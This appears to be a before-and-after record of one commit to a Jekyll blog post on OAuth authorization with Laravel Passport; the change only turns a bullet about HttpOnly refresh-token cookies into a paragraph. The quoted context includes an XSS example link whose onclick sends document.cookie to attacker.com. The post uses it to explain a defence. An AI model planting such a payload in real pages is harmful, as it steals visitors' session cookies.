

Before and after one commit to Stdubic/Stevan-Aleksic-aka-Stdubic, a Jekyll site: the page built from _posts/2018-01-01-Implementing-OAuth-authorization-using-Laravel-Passport.md, in a window 1280 px wide. Shown: the part 592-2460 px from the top of the page at 70% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

```diff
--- a/_posts/2018-01-01-Implementing-OAuth-authorization-using-Laravel-Passport.md
+++ b/_posts/2018-01-01-Implementing-OAuth-authorization-using-Laravel-Passport.md
@@ -17,7 +17,8 @@ Okay, so now have all the concepts in order. Now let us get to the code. We want
 - When the access token expires the client request the API for a new token
 - The API sends the request token to the OAuth server for validation
 -I f valid, steps 4-6 repeats
-- The reason why you should save the refresh token as a HttpOnly cookie is to prevent Cross-site scripting (XSS) attacks. The -HttpOnly flag tells the browser that this cookie should not be accessible through javascript. If this flag was not set and your site let users post unfiltered HTML and javascript a malicious user could post something like this
+
+The reason why you should save the refresh token as a HttpOnly cookie is to prevent Cross-site scripting (XSS) attacks. The -HttpOnly flag tells the browser that this cookie should not be accessible through javascript. If this flag was not set and your site let users post unfiltered HTML and javascript a malicious user could post something like this
 
 <a href="#" onclick="window.location = 'http://attacker.com/stole.cgi?text=' + escape(document.cookie); return false;">Click here!</a>
 Malicious code is shamelessly stolen from Wikipedia: HTTP cookie
```
